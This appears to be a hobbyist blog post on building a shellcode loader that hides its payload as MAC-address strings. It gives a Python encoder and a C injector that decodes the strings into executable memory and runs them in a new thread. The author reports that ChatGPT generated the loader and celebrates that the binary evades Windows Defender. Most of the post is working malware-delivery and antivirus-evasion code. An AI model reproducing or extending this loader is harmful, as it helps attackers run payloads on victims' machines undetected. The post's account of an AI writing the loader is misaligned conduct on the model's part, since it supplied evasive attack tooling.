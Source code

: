 # Overview
So I found this:  https://github.com/NUL0x4C/HellShell which is an decoder for MACaddr -> shellcode but it just seems to be a POC to convert the MACShell. So to build this out I need two things. Build out the encoder for macaddr (I'll add ipv4 and ipv6 after the macaddr one works.) Then a program to decrypt and inject the shell code.

# Encoder
Going to use python cause opening files in C seems to hard. Going to dump the code then explain it.
```python
def encode_mac(file_name,outfile="./mac_addr_shellcode.txt") -> list:
    #read from file and do some magic.
    raw_bytes = ''
    with open(file_name,'r') as file:
        for line in file:
            if (len(line.strip()[1:-1])!=56):
                raw_bytes += line.strip()[1:-2]
                raw_bytes +='\\x90'*round((16-(len(line.strip()[1:2])%16))/8)
            else:
                raw_bytes += line.strip()[1:-1]
    
    mac_arr = [raw_bytes[i*24:i*24+24].replace("\\x","-")[1:] for i in range(len(raw_bytes)//24)]

    #write to file no magic :(
    with open(outfile,'w') as out:
        counter = 0
        for i in mac_arr:
            counter+=1
            if counter==4:
                out.write(i+'",\n')
                counter =0
            elif counter==1:
                out.write('"'+i+'", "')
            else:
                out.write(i+'", "')
            
if __name__ == "__main__":
    encode_mac('./code.c')
```

So for the macaddrs they are basically 6 bytes. (each byte being of length for `\xFF`). One thing to account for is padding. 
```python
raw_bytes +='\\x90'*round((16-(len(line.strip()[1:2])%16))/8)
```

All this is doing is checking how many more bytes are need to fill the final mac addr. Then padding with `\x90` which is a NOP byte, meaning it does nothing.

# Building the Injector
So asking chatgpt to do it (and a bit of clean up by me) gives this:
```c
#include <Windows.h>
#include <stdio.h>
#include <Ip2string.h>
#pragma comment(lib, "Ntdll.lib")

#ifndef NT_SUCCESS
#define NT_SUCCESS(Status) (((NTSTATUS)(Status)) >= 0)
#endif

const char* MACShell[] = {
	#macencoded payload
};
#define ElementsNumber 64
#define SizeOfShellcode 384

BOOL DecodeMACFuscation(const char* MAC[], PVOID LpBaseAddress) {
	PCSTR Terminator = NULL;
	PVOID LpBaseAddress2 = NULL;
	NTSTATUS STATUS;
	int i = 0;
	for (int j = 0; j < ElementsNumber; j++) {
		LpBaseAddress2 = PVOID((ULONG_PTR)LpBaseAddress + i);
		STATUS = RtlEthernetStringToAddressA((PCSTR)MAC[j], &Terminator, (DL_EUI48*)LpBaseAddress2);
		if (!NT_SUCCESS(STATUS)) {
			printf("[!] RtlEthernetStringToAddressA failed for %s result %x", MAC[j], STATUS);
			return FALSE;
		}
		else {
			i = i + 6;
		}
	}
	return TRUE;
}


DWORD PID, TID = NULL;
LPVOID rBuffer = NULL;
HANDLE hProcess, hThread = NULL;

const char* k = "[+]";
const char* i = "[*]";
const char* e = "[-]";

int main() {
	PVOID LpBaseAddress = NULL;
	printf("[i] SizeOf MacShell : %d \n", sizeof(MACShell));

	LpBaseAddress = VirtualAllocEx(GetCurrentProcess(), NULL, sizeof(MACShell), MEM_RESERVE | MEM_COMMIT, PAGE_EXECUTE_READWRITE);
	if (!LpBaseAddress) {
		printf("[!] VirtualAllocEx Failed With Error: %d \n", GetLastError());
		return -1;
	}
	printf("[+] LpBaseAddress: 0x%0-16p \n", (void*)LpBaseAddress);


	if (!DecodeMACFuscation(MACShell, LpBaseAddress)) {
		return -1;
	}

	hThread = CreateThread(NULL, 0, (LPTHREAD_START_ROUTINE)LpBaseAddress, NULL, NULL, &TID);
	if (hThread == NULL) {
		printf("%s failed to get a handle to the thread, error: %ld", e, GetLastError());
		CloseHandle(hProcess);
		return EXIT_FAILURE;
	}

	printf("%s got a handle to the thread (%ld)\n--0x%p\n", k, TID, hThread);

	printf("%s waiting for thread to finish\n", i);
	WaitForSingleObject(hThread, INFINITE);
	printf("%s thread finished executing\n", k);

	CloseHandle(hThread);
	CloseHandle(hProcess);

	return EXIT_SUCCESS;

}
```

which doesn't work.

## Trying to fix c code
I get a call back when using a staged payload but other then that I get nothing. At least the binary doesn't get flagged by defender. :)

A good start to debug this is to check if the shellcode is decoded correctly in the thread. 

How? yea I have no idea.

# Nim
Lets redo the entire thing but with nim! I just learnt it so this is going to go very well.
